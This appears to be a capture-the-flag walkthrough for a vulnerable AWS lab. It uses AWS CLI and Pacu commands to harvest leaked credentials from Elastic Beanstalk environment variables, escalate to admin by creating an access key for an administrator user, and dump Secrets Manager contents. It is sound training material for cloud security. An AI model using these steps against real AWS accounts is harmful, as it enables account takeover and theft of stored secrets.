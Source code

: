 # Beanstalk Secrets Walkthrough

## Summary

In this scenario, you are provided with low-privileged AWS credentials. Your task is to enumerate Elastic Beanstalk applications and environments, discover misconfigured environment variables that leak secondary credentials, and then use these credentials to enumerate IAM permissions. By exploiting the ability to create an access key for an administrator user, you will escalate your privileges and ultimately retrieve the final flag stored in AWS Secrets Manager.

## Detailed Walkthrough

### Configuring the AWS Keys

After launching the scenario, you will be provided with an AWS Access Key ID and Secret Access Key for the low-privileged user. Configure your AWS CLI profile with these credentials:

```bash
aws configure --profile beanstalk
```

You will be prompted for the Access Key, Secret Key, Region, and output format. For example:

```bash
AWS Access Key ID: AKIA2HV********
AWS Secret Access Key: v+xInRa11dSj**************
Default region name: us-east-1
Default output format: json
```

Verify your access:

```bash
aws sts get-caller-identity --profile beanstalk
```

### Enumerating Elastic Beanstalk

Use Pacu to enumerate Elastic Beanstalk applications and environments:

```bash
Pacu (beanstalk:imported-beanstalk) > run beanstalk__enum --region us-east-1
```

The module will list available applications and environments. Notice the misconfigured environment where environment variables reveal secondary credentials.

### Checking Permissions with Pacu

Next, assess the permissions of the low-privileged user by enumerating available IAM actions:

```bash
Pacu (beanstalk:imported-beanstalk) > run iam__bruteforce_permissions --region us-east-1
```

Review the output to understand the limited permissions available on Elastic Beanstalk and IAM.

### Switching to the Secondary User

The Elastic Beanstalk environment stores secondary credentials in its environment variables. Use these credentials to configure a new AWS CLI profile:

```bash
aws configure --profile beanstalk2
```

Verify the secondary user’s access:

```bash
aws sts get-caller-identity --profile beanstalk2
```

### Enumerating IAM with the Secondary User

With the secondary credentials, enumerate IAM permissions:

```bash
Pacu (beanstalk2:imported-beanstalk2) > run iam__enum_permissions --region us-east-1
```

This will display additional IAM permissions, including the ability to create an access key for other users.

### Privilege Escalation with CreateAccessKey

Run the privilege escalation scan in Pacu to identify exploitable methods:

```bash
Pacu (beanstalk2:imported-beanstalk2) > run iam__privesc_scan --scan-only
```

Notice that the `CreateAccessKey` method is confirmed as a viable escalation vector. Now execute the method to target the administrator user:

```bash
Pacu (beanstalk2:imported-beanstalk2) > run iam__privesc_scan --user-methods CreateAccessKey
```

Follow the prompts to select the admin user. Pacu will then generate a new access key for the admin user and display the credentials.

### Configuring the Admin Profile

Using the new admin credentials, set up an AWS CLI profile:

```bash
aws configure --profile admin
```

Enter the provided admin Access Key ID and Secret Access Key. Confirm access:

```bash
aws sts get-caller-identity --profile admin
```

### Retrieving the Final Flag

Finally, with admin privileges, run the secrets enumeration module to retrieve the final flag:

```bash
Pacu (beanstalk3:imported-admin) > run secrets__enum --region us-east-1
```

Check the downloaded secrets in the Pacu output directory (typically under `~/.local/share/pacu/<session>/downloads/secrets/`). For example:

```bash
cat ~/.local/share/pacu/beanstalk3/downloads/secrets/secrets_manager/secrets.txt
```

The file should contain the final flag, for example:  
`FLAG{*********************}`

